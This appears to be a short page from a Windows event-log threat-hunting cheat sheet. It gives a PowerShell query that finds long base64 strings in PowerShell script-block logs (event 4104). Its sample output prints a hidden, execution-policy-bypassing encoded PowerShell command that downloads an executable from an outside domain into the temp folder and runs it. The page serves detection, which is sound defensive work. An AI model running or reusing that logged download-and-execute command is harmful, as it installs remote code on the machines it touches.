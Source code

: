 ### <a name='msinstaller'></a>msinstaller

![msinstaller](/assets/images/sys-win-logs-msi.png)

```powershell
```

### <a name='powershell'></a>powershell
```powershell
# 01 # base64 encoded commands 
Get-WinEvent -FilterHashtable @{ LogName='Microsoft-Windows-PowerShell/Operational'; Id='4104';} | Where-object -Property Message -Match "[A-Za-z0-9+/=]{200}" | Format-List -Property Message

Message : Creating Scriptblock text (1 of 1):
          poWERShElL.Exe -ExECutioNPolicy bYpAsS -NOPrOFiLe -WindOwsTyLe HiddEN -enCodEdCoMMANd IAAoAG4ARQB3AC0AbwBiAGoAZQB
          jAFQAIABTAHkAUwBUAGUAbQAuAE4AZQB0AC4AVwBFAGIAQwBsAGkARQBOAHQAKQAuAEQAbwB3AE4ATABvAGEARABGAEkAbABFACgAIAAdIGgAdAB0
          AHAAcwA6AC8ALwBhAHIAaQBoAGEAbgB0AHQAcgBhAGQAZQByAHMAbgBnAHAALgBjAG8AbQAvAGkAbQBhAGcAZQBzAC8AUwBjAGEAbgBfADIALgBlA
          HgAZQAdICAALAAgAB0gJABlAG4AdgA6AFQARQBtAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAB0gIAApACAAOwAgAGkAbgBWAG8AawBFAC0ARQB4AF
          AAUgBlAHMAUwBJAG8ATgAgAB0gJABFAE4AdgA6AHQARQBNAFAAXABvAHUAdABwAHUAdAAuAGUAeABlAB0g
```
